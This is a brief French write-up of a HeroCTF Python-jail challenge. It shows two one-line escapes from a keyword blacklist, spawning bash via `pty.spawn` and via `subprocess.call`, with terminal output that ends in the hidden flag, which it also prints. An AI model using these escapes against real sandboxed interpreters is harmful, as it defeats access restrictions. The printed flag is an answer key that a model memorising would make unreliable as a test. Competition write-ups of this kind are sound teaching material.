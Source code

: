 Dans ce deuxième PyJail, l'accès aux mots "os", "ls", "cat", "chmod", "cd" etc a été bloqué.

La solution est donc de faire pop directement un shell.

Par exemple :
```bash
Enter your code below:
import pty
pty.spawn('/bin/bash')
EOF
pwnuser@480dd7fb733f:~$ ls
ls
entry.sh  flag.txt  programs  shell.py
pwnuser@480dd7fb733f:~$ cat flag.txt
cat flag.txt
Ahahaha not here !
pwnuser@480dd7fb733f:~$ ls -al
ls -al
total 40
drwxr-xr-x 1 pwnflag pwnflag 4096 Apr 12 22:50 .
drwxr-xr-x 1 root    root    4096 Apr 12 22:21 ..
-rw-r--r-- 1 pwnuser pwnuser  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 pwnuser pwnuser 3789 Apr 12 22:21 .bashrc
-rw-r--r-- 1 pwnuser pwnuser  807 Apr  4  2018 .profile
-rw-r--r-- 1 root    root      24 Apr 12 22:50 .thefl4gIsHere.txt
-rwsr-xr-x 1 root    root     136 Apr 12 22:45 entry.sh
-rw-r--r-- 1 root    root      19 Apr 12 22:45 flag.txt
drwxr-xr-x 1 root    root    4096 Apr 12 22:50 programs
-rwsr-xr-x 1 pwnflag pwnflag 1445 Apr 12 22:45 shell.py
pwnuser@480dd7fb733f:~$ cat .thefl4gIsHere.txt
cat .thefl4gIsHere.txt
HeroCTF{sup3r_sh3ll_!!}
```
(On se fait évidemment avoir par le flag.txt ...)
On peut aussi faire spawn un shell avec subprocess :
```bash
Enter your code below:
import subprocess
subprocess.call("/bin/bash")
EOF
whoami
pwnuser
id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
ls -al
total 40
drwxr-xr-x 1 pwnflag pwnflag 4096 Apr 12 22:50 .
drwxr-xr-x 1 root    root    4096 Apr 12 22:21 ..
-rw-r--r-- 1 pwnuser pwnuser  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 pwnuser pwnuser 3789 Apr 12 22:21 .bashrc
-rw-r--r-- 1 pwnuser pwnuser  807 Apr  4  2018 .profile
-rw-r--r-- 1 root    root      24 Apr 12 22:50 .thefl4gIsHere.txt
-rwsr-xr-x 1 root    root     136 Apr 12 22:45 entry.sh
-rw-r--r-- 1 root    root      19 Apr 12 22:45 flag.txt
drwxr-xr-x 1 root    root    4096 Apr 12 22:50 programs
-rwsr-xr-x 1 pwnflag pwnflag 1445 Apr 12 22:45 shell.py
cat .thefl4gIsHere.txt
HeroCTF{sup3r_sh3ll_!!}
```
(EOF = End Of File)

HeroCTF{sup3r_sh3ll_!!}
